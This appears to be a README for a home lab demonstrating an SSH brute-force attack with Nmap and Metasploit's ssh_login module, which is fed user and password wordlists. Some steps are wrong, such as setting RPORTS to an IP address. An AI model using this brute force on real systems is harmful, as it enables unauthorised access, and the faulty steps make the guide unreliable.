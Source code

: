 ##### Bruteforce-demo
---
##### _This is a simple display of how bruteforce attack works, the lab also highlights the importance of redteam thinking, We could also see the relationship between information garthering and exploitation from the nmap open port being the one explored for exploitation._

---

##### Tools Used
- Nmap
- Kali
- Metaspliotable OS
- msfconsole
---

##### Steps

##### 1. install metaspliotable on your kali

```bash
sudo apt update
sudo apt install metasploit-framework -y
```
---

##### 2. Access msfconsole

```bash
msfconsole
```
---

##### 3. Run basic nmap command to view open ports

```bash
nmap 192.168.1.4
```
My port 22/tcp (ssh) is opened so we would be exploiting that.

---

##### 4. Access scan ssh on msfconsole

```bash
msf > search ssh
```
---

##### 5. Access the auxiliary Scanner for ssh

```bash
msf > use auxiliary/scanner/ssh/ssh_login
```
---

##### 6. Search Options to understand the requirements and set them up

```bash
msf > show options
```
---

##### 7. Set the PASS_FILE, USER_FILE, RHOSTS, BRUTEFORCE_SPEED AND VERBOSE, as communicated under options

```bash
msf > set RPORTS 192.168.1.4
msf > set VERBOSE true
msf > set USER_FILE "file path/text file"
msf > set PASS_FILE "file path/text file"
```
#### Then run

```bash
msf > run
```
---


